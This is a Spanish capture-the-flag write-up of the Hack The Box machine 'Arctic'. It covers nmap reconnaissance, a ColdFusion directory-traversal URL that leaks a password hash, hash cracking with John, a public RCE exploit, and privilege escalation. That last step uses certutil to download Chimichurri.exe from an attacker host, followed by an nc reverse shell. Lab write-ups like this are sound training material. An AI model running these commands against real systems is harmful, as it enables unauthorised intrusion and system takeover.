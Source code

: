 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 16/07/2024'
---
```


# Arctic

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.11
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1241).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.11
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1243).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 135 (MSRPC)**: Este puerto es utilizado por Microsoft Windows RPC (Remote Procedure Call). Puede ser un objetivo para ataques de enumeración, explotación de vulnerabilidades en versiones desactualizadas o abuso de privilegios a través de DCOM.
* **Puerto 8500**: Identificado con un servicio desconocido (`fmtp?`). Se recomienda realizar un escaneo más profundo para determinar su funcionalidad y verificar si está asociado con software vulnerable.
* **Puerto 49154 (MSRPC)**: Otro puerto de Microsoft Windows RPC, comúnmente utilizado para comunicaciones internas del sistema. Puede ser investigado para determinar si existen configuraciones inseguras o vulnerabilidades explotables.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,8500,49154 -v 10.10.10.11
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1244).png" alt=""><figcaption></figcaption></figure>

A través del puerto **8500** corre una página web. Indagando un poco encontramos un panel de **Login** en el directorio `/administrator`. Es un panel de **Adobe Coldfusion**.

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption></figcaption></figure>

Buscamos exploits para explotarlo con Metasploit.

### 🚀 **EXPLOTACIÓN**

{% embed url="https://www.exploit-db.com/exploits/14641" %}

Vemos que es un Directory Traversal y nos sale la dirección comentada.

```bash
http://10.10.10.11/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption></figcaption></figure>

Vemos que la contraseña es un hash entonces con John vamos a crackearlo.

<figure><img src="../../.gitbook/assets/image (1247).png" alt=""><figcaption></figcaption></figure>

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 hash
```

<figure><img src="../../.gitbook/assets/image (1248).png" alt=""><figcaption></figcaption></figure>

Tenemos la contraseña de admin por lo que nos logueamos.

<figure><img src="../../.gitbook/assets/image (1249).png" alt=""><figcaption></figcaption></figure>

Buscando más exploits encontramos un RCE.

<figure><img src="../../.gitbook/assets/image (1250).png" alt=""><figcaption></figcaption></figure>

Nos la descargamos.

```bash
searchsploit -m cfm/webapps/50057.py
```

<figure><img src="../../.gitbook/assets/image (1251).png" alt=""><figcaption></figcaption></figure>

Ejecutamos.

```
python3 50057.py
```

<figure><img src="../../.gitbook/assets/image (1252).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Para escalar privilegios ya que WinPeas no funciona usamos esto.

{% @github-files/github-code-block url="https://github.com/bitsadmin/wesng" %}

```
python3 wes.py system_info.txt -i "Elevation of Privilege" -e                                  
```

<figure><img src="../../.gitbook/assets/image (1253).png" alt=""><figcaption></figcaption></figure>

Se identificó un exploit que es el que vamos a usar para escalar privilegios.

{% embed url="https://www.exploit-db.com/exploits/14610?source=post_page-----9548f1285d56---------------------------------------" %}

{% @github-files/github-code-block url="https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled" %}

```bash
certutil.exe -urlcache -f http://10.10.14.14:8000/Chimichurri.exe c.exe
```

Nos ponemo en escucha mientras ejecutamos el archivo.

```
nc -lvnp 4444
c.exe 10.10.14.14 4444
```

<figure><img src="../../.gitbook/assets/image (1254).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1255).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-18 233057.png" alt=""><figcaption></figcaption></figure>
